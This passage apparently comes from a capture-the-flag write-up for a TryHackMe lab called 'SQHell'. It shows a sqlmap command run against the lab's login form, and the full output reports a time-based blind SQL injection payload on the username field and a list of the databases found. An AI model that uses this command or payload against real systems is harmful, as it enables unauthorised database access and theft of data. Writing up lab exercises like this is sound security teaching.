 With the information gathered we can tell SQLMap to use the username and password fields, set the database to mysql, and dump the databases it can find:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql --dbs --threads 10
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.5#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|_|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:32:24 /2021-06-09/
[22:32:24] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:32:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:32:25] [INFO] testing MySQL
[22:32:34] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:32:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:32:45] [INFO] adjusting time delay to 1 second due to good response times
[22:32:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:32:45] [INFO] fetching database names
[22:32:45] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:32:45] [INFO] resumed: 2
[22:32:45] [INFO] resumed: information_schema
[22:32:45] [INFO] resumed: sqhell_2
available databases [2]:
[*] information_schema
[*] sqhell_2
[22:32:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:32:45 /2021-06-09/
```

Again, a lot of information but the important part is the database it found:

```text
[*] sqhell_2
```
